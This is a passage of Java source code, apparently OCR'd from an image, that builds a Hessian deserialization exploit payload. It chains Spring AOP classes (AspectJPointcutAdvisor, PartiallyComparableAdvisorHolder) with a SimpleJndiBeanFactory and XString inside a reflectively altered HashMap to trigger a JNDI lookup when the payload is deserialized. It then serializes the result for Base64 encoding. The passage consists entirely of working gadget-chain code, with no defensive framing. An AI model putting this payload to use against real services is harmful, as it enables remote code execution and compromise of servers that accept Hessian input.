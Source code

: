 ```
        setFieldValue(beanFactoryAspectInstanceFactory,"beanFactory",simpleJndiBeanFactory);
        setFieldValue(beanFactoryAspectInstanceFactory,"name",name);
        AspectJExpressionPointcut aspectJExpressionPointcut = new AspectJExpressionPointcut();
        Method aspectJAdviceMethod = Class.forName("java.lang.Object").getDeclaredMethod("toString");
        AbstractAspectJAdvice abstractAspectJAdvice = new AbstractAspectJAdvice(aspectJAdviceMethod,aspectJExpressionPointcut,beanFactoryAspectInstanceFactory) {
            @Override
            public boolean isBeforeAdvice() {
                return false;
            }

            @Override
            public boolean isAfterAdvice() {
                return false;
            }
        };

        AspectJPointcutAdvisor aspectJPointcutAdvisor = createWithoutConstructor(AspectJPointcutAdvisor.class);
        setFieldValue(aspectJPointcutAdvisor,"advice",abstractAspectJAdvice);
        Class clazz = Class.forName("org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder");
        ASCIICaseInsensitiveComparator asciiCaseInsensitiveComparator = new ASCIICaseInsensitiveComparator();
        Constructor[] constructors = clazz.getDeclaredConstructors();
        constructors[0].setAccessible(true);
        Object objects = constructors[0].newInstance(aspectJPointcutAdvisor,asciiCaseInsensitiveComparator);

        XString xString = new XString("");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("aa",objects);
        map1.put("bB",xString);
        map2.put("aa",xString);
        map2.put("bB",objects);
        HashMap map = new HashMap();
        map.put("a","");
        map.put(map2,"");
        Field field = map.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(map);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[1];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node, map1);
        }

        ByteArrayOutputStream byteArrayOutputStream1 = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream1);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(map);
        hessian2Output.close();

        Base64.Encoder base = Base64.getEncoder();
```